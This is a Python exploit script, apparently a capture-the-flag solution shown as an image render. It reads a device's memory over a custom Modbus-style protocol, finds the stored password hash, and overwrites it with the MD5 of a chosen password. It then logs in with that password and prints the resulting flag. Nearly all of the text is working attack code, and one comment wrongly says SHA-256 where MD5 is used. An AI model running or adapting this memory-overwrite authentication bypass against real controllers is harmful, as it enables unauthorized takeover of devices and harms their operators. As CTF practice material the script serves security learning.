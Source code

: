 ```python
    client.framer.decoder.register(CustomProtocolResponse)

    address = [0x00, 0x00, 0x00]  # Starting 3-byte address
    read_length = 0xFF  # Number of bytes to read
    memory_block_data = []

    for i in range(0, 64): # 64 * 256 == 16 * 1024
        data = address + [read_length]

        code, status, data = send_packet(client, SESSION, READ_MEMORY_BLOCK, data)
        

        if all(byte == 0xFF for byte in data):
            print("All bytes are 0xFF, exiting loop.")
            break

        memory_block_data += data
        # Increment the address by read_length (0xFF)
        address = increment_address(address, read_length)
    

    split_value = 0x00
    memory_block_entries = split_list_at_value(memory_block_data, split_value)

    hash_entry = []
    for entry in memory_block_entries:
        if len(entry) >= 16:
            print(entry)
            hash_entry += entry
  

    hash_entry_index = find_sublist_index(memory_block_data, hash_entry)
    print(hash_entry_index)


    passowrd = 'new_password'
    password_list = string_to_list_of_ints(passowrd)

    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(passowrd.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    # Convert hash to a list of integers
    hashed_value_list = list(hashed_value)

    for increment in range(0, 6):
        address = int_to_3_byte_list(hash_entry_index+increment)
        print(f'Trying address {address}')
        code, status, data = send_packet(client, SESSION, 0x21, address + hashed_value_list)
        print(code, status, data)


        code, status, data = send_packet(client, SESSION, 0x22, password_list)
        print(code, status, data)

        if len(data) > 2:
            print('Found correct hash address!')

            flag = ""

            for char in data:
                flag += chr(char)
```